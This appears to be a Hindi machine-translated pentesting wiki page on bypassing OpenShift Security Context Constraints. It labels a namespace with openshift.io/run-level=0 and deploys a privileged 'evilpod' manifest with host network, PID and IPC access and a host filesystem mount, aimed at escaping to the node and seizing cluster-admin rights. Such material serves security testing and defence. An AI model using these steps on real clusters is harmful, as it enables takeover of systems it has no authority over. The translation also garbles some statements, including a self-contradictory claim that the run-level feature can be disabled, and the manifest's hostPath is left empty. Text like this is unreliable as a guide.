 # Openshift - SCC बायपास

**इस पेज के मूल लेखक हैं** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## विशेषाधिकारित नेमस्पेस

डिफ़ॉल्ट रूप से, SCC निम्नलिखित परियोजनाओं पर लागू नहीं होता है:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

यदि आप इनमें से किसी नेमस्पेस में पॉड डिप्लॉय करते हैं, तो कोई SCC प्रवर्तित नहीं किया जाएगा, जिससे विशेषाधिकृत पॉड डिप्लॉय किया जा सकता है या होस्ट फ़ाइल सिस्टम को माउंट किया जा सकता है।

## नेमस्पेस लेबल

RedHat दस्तावेज़ के अनुसार, आपके पॉड पर SCC एप्लिकेशन को अक्षम करने का एक तरीका है। आपके पास निम्नलिखित अनुमति में से कम से कम एक होनी चाहिए:

* एक नेमस्पेस बनाएं और इस नेमस्पेस पर एक पॉड बनाएं
* एक नेमस्पेस संपादित करें और इस नेमस्पेस पर एक पॉड बनाएं
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
विशिष्ट लेबल `openshift.io/run-level` उपयोगकर्ताओं को एप्लिकेशन्स के लिए SCCs को दायर करने की अनुमति देता है। RedHat दस्तावेज़ के अनुसार, जब इस लेबल का उपयोग किया जाता है, तो उस नेमस्पेस के सभी पॉड्स पर कोई SCC प्रवर्तित नहीं किया जाता है, जिससे किसी भी प्रतिबंध को हटा दिया जाता है।

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## लेबल जोड़ें

अपने नेमस्पेस में लेबल जोड़ने के लिए:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
एक नेमस्पेस लेबल के साथ एक YAML फ़ाइल के माध्यम से बनाने के लिए:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
अब, नेमस्पेस पर बनाए गए सभी नए पॉड्स के पास कोई भी SCC नहीं होना चाहिए

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC की अनुपस्थिति में, आपके पॉड परिभाषण पर कोई प्रतिबंध नहीं होता। इसका मतलब है कि एक हानिकारक पॉड आसानी से होस्ट सिस्टम पर भाग निकल सकता है।
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
अब, यह उन्नतियों को उच्चाधिकार तक बढ़ाना आसान हो गया है ताकि मेज़बान सिस्टम तक पहुंचा जा सके और उसके बाद पूरे क्लस्टर को हासिल किया जा सके, 'क्लस्टर-व्यवस्थापक' अधिकार प्राप्त करते हुए। **Node-Post Exploitation** भाग के लिए निम्नलिखित पृष्ठ में देखें:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### कस्टम लेबल

इसके अतिरिक्त, लक्षित सेटअप पर आधारित, कुछ कस्टम लेबल / एनोटेशन भी पिछले हमले के स्थिति के तरीके से उपयोग किए जा सकते हैं। यद्यपि यह उद्देश्य के लिए नहीं है, तो लेबल को अनुमतियाँ देने, प्रतिबंधित करने या किसी विशेष संसाधन को न करने के लिए उपयोग किया जा सकता है।

यदि आप कुछ संसाधन पढ़ सकते हैं तो कस्टम लेबल खोजने का प्रयास करें। यहाँ कुछ दिलचस्प संसाधनों की सूची है:

* पॉड
* डिप्लॉयमेंट
* नेमस्पेस
* सेवा
* रूट
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## सभी विशेषाधिकार वाले नेमस्पेस की सूची
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## उन्नत उत्पीड़न

OpenShift में, जैसा पहले प्रदर्शित किया गया, `openshift.io/run-level` लेबल वाले नेमस्पेस में पॉड डिप्लॉय करने की अनुमति होने से क्लस्टर का सीधा अधिकार लेना संभव है। क्लस्टर सेटिंग्स के दृष्टिकोण से, यह कार्यक्षमता **अक्षम की जा सकती है**, क्योंकि यह OpenShift के डिज़ाइन में निहित है।

हालांकि, **Open Policy Agent GateKeeper** जैसी सुरक्षा उपाय उपयोगकर्ताओं को इस लेबल को सेट करने से रोक सकती है।

GateKeeper के नियमों को अनदेखा करने और इस लेबल को सेट करने के लिए क्लस्टर अधिकार लेने के लिए, **हमलावरों को वैकल्पिक तरीके की पहचान करनी होगी।**

## संदर्भ

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
